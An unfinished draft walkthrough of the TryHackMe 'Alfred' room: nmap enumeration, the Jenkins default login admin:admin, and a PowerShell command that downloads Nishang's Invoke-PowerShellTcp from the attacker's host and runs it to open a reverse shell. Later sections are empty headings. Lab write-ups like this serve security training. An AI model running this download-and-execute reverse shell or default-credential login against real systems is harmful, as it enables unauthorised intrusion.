 +++
tags = ["TryHackMe", "Windows", "Nishang"]
title = "Alfred - TryHackMe"
weight = 10
draft = true
images = [ "/walkthroughs/Alfred/Alfred.png" ]
description = "Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens."
+++

![Logo](Alfred.png)

Date written: January 2023      
Date published: 

## Task 1: Introduction 

"In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using Nishang to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the reverse shell scripts." - [TryHackMe](https://tryhackme.com/room/alfred).

As always the first step to a TryHackMe room is to connect to either OpenVPN or AttackBox. If you have never connected to [OpenVPN](https://tryhackme.com/room/openvpn) or [AttackBox](https://tryhackme.com/room/tutorial) before try their respective rooms to for a tutorial on how to connect to each one. 


After we're connected to THM the first thing to do is run an nmap scan on our host with ```nmap 10.1.81.21```. We only need to look at TCP ports right now so just a basic scan is fine.  

![nmap scan](Task1_NMAP.png)

After a basic NMAP scan I like to run ```nmap -sC -sV $IP```. This will run the default nmap scripting engine (nse) scripts (-sC) and then check for the service version (-sV). You can also specify the ports to scan since we already know which ports are open with ```-p 80, 8080, 3389```

So I like to break my nmap scripts down by port and service. Then list out what possible next steps or attack methods I could do next.

```bash
- 80 HTTP Microsoft IIS 7.5
- 8080 HTTP Jetty 9.4.z-SNAPSHOT
- 3389 TCPWrapped
```

![nmap scan 2](Task1_NMAP2.png)

> How many Ports are open? (TCP only)

> Answer: 3

Navigating to your IP in the web browser will give you a picture of Bruce Wayne and an email. There is also nothing useful in the source code that I could find.
 
Since port 80 didn't yield anything useful we can try navigating to port 8080 using ```10.1.81.21:8080```. This brings us to a login page. I will admit I stumbled around hydra for a while trying to get a username and password. So think simple first and then go from there. Think default credentials for a basic web page and we can land on the answer to our next question. 

> What is the username and password for the login panel? (in the format username:password)

> Answer: admin:admin






Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server







> You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server

> Answer: No Answer needed

> What is the user.txt flag? 

> Answer: 

## Task 2 Initial Access 



## Task3: Privilege Escalation  


## Task 4: Access and Escalation Without Metasploit 
